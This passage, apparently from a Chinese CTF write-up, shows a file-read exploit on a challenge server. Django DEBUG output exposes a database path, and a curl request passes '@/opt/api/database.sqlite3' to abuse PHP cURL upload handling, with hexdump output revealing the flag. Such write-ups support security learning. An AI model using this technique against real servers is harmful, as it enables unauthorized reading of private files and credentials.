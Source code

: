 在 Request information/Settings 中观察到 DATABASES 项信息为:

```bash
'default': {'ATOMIC_REQUESTS': False,
             'AUTOCOMMIT': True,
             'CONN_MAX_AGE': 0,
             'ENGINE': 'django.db.backends.sqlite3',
             'HOST': '',
             'NAME': '/opt/api/database.sqlite3',
             'OPTIONS': {},
             'PASSWORD': u'********************',
             'PORT': '',
             'TEST': {'CHARSET': None,
                      'COLLATION': None,
                      'MIRROR': None,
                      'NAME': None},
             'TIME_ZONE': None,
             'USER': ''\}\}
```
由 Django DEBUG Mode 判断出后端架构为 Python/Django，猜测PHP层的处理逻辑可能为 `cURL`。

cURL 中当 `CURL_SAFE_UPLOAD = false` 的时候，以 `@` 开头的 value 就会被当做文件上传，造成任意文件读取。当且仅当文件中存在中文字符的时候，Django 才会报错导致获取文件内容。

![](/assets/images/move/20190913232900.png)

尝试读取 `/opt/api/database.sqlite3` 数据库内容。

```bash
$ curl '111.198.29.45:32546/index.php?url=@/opt/api/database.sqlite3' | xxd | grep -A 5 -B 5 CTF
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8128    0  8128    0     0   6911      0 --:--:--  0:00:01 --:--:--  6911
00019ac0: 5c78 3030 5c78 3030 5c78 3030 5c78 3030  \x00\x00\x00\x00
00019ad0: 5c78 3030 5c78 3030 5c78 3030 5c78 3030  \x00\x00\x00\x00
00019ae0: 5c78 3030 5c78 3030 5c78 3030 5c78 3030  \x00\x00\x00\x00
00019af0: 5c78 3030 5c78 3030 5c78 3030 5c78 3030  \x00\x00\x00\x00
00019b00: 5c78 3030 5c78 3163 5c78 3031 5c78 3032  \x00\x1c\x01\x02
00019b10: 4157 4843 5446 7b79 6f6f 6f6f 5f53 7563  AWHCTF{yoooo_Suc
00019b20: 685f 415f 4730 3044 5f40 7d5c 6e26 616d  h_A_G00D_@}\n&am
00019b30: 703b 2333 393b 266c 743b 2f70 7265 2667  p;#39;&lt;/pre&g
00019b40: 743b 266c 743b 2f74 6426 6774 3b0a 2020  t;&lt;/td&gt;.  
00019b50: 2020 2020 2020 2020 2020 2020 2020 266c                &l
00019b60: 743b 2f74 7226 6774 3b0a 2020 2020 2020  t;/tr&gt;.      
100  144k    0  144k    0     0  97142      0 --:--:--  0:00:01 --:--:-- 97142
```

获取 `WHCTF{yoooo_Such_A_G00D_@}`.
